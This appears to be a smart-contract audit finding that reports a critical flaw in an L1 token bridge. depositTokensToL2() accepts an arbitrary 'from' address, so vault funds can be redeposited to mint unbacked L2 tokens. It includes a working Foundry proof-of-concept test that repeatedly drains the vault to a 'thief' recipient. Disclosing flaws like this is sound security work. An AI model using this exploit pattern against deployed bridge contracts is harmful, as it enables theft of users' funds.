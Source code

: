 ### [C-2] Calling `L1BossBridge::depositTokensToL2()` function from the vault contract to the vault contract allows infinite minting of unbacked tokens

**Description:**

`depositTokensToL2()` function allows the caller to specify the `from` address, from which tokens are taken.

**Impact:**

Because the vault grants infinite approval to the bridge already (as can be seen in the contract's constructor), it is possible for an attacker to call the `depositTokensToL2()` and transfer tokens from the vault to the vault itself. This would allow the attacker to trigger the `Deposit()` event any number of times, presumably causing the minting of unbacked tokens in L2.    
Additionally, they could mint all the tokens to themselves.

**Proof of Concept:**

Add the following test to the `L1TokenBridge.t.sol` file:

```solidity
    function testCanTransferFromVaultToVault() public {
        address thief = makeAddr("thief");
        uint256 vaultBalance = 200e18;
        deal(address(token), address(vault), vaultBalance);

        // self transfer tokens to the vault and trigger event
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), thief, vaultBalance);
        tokenBridge.depositTokensToL2({
            from: address(vault),
            l2Recipient: thief,
            amount: vaultBalance
        });

        // thief can continue self-minting themselves token on the L2 unlimited
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), thief, vaultBalance);
        tokenBridge.depositTokensToL2({
            from: address(vault),
            l2Recipient: thief,
            amount: vaultBalance
        });
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), thief, vaultBalance);
        tokenBridge.depositTokensToL2({
            from: address(vault),
            l2Recipient: thief,
            amount: vaultBalance
        });
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), thief, vaultBalance);
        tokenBridge.depositTokensToL2({
            from: address(vault),
            l2Recipient: thief,
            amount: vaultBalance
        });
        // till infinity
    }
```
